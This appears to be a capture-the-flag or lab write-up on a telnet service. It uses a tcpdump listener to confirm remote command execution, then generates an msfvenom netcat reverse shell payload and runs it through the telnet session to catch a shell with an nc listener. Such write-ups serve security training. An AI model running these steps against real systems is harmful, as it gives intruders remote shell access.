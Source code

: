 ```yaml
---
description: tcpdump listener
---
```


# 🔼 tools used

with the OpenVPN connection:

* `sudo tcpdump ip proto \\icmp -i tun0`

<figure><img src="../../.gitbook/assets/image (65).png" alt=""><figcaption><p>why tun0</p></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (66).png" alt=""><figcaption></figcaption></figure>

in order to find if telnet is executing our commands on it we started a tcpdump listener on our local machine and then executed `.RUN ping [our local ip] -c 1`

***

We're going to generate a reverse shell payload using msfvenom.This will generate and encode a netcat reverse shell for us. Here's our syntax:\


`msfvenom -p cmd/unix/reverse_netcat lhost=[local tun0 ip] lport=4444 R`

`-p` = payload

`lhost` = our local host IP address (this is your machine's IP address)

`lport` = the port to listen on (this is the port on your machine)

`R` = export the payload in raw format

<figure><img src="../../.gitbook/assets/image (64).png" alt=""><figcaption></figcaption></figure>

#### Now all we need to do is start a netcat listener on our local machine. We do this using:

`nc -lvp [listening port]`

after that we copy and paste our msfvenom payload into the telnet session and run it as a command to get a shell.
